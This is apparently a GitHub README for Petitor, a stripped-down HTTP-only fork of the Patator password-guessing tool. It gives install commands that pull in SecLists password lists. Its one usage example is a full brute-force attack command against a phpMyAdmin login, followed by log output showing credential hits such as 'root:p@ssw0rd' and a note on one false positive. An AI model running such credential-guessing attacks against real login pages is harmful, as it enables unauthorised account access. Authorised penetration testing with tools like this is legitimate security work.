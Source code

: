 # Petitor

Petitor is a stripped-down fork of Patator by lanjelot, exclusively focused on HTTP fuzzing.
Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.

# Differences from Patator

- Module functionality dropped. http_fuzz only.
- Windows support dropped. Might still work. Not tested.
- Compatible with recent Python versions.

## Install

```
git clone https://github.com/n0kovo/petitor.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t petitor petitor/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt petitor dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Example

* HTTP : Brute-force phpMyAdmin logon

```
$ petitor url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 petitor    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 petitor    INFO -
11:53:47 petitor    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 petitor    INFO - -----------------------------------------------------------------------------
11:53:48 petitor    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 petitor    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 petitor    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 petitor    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```
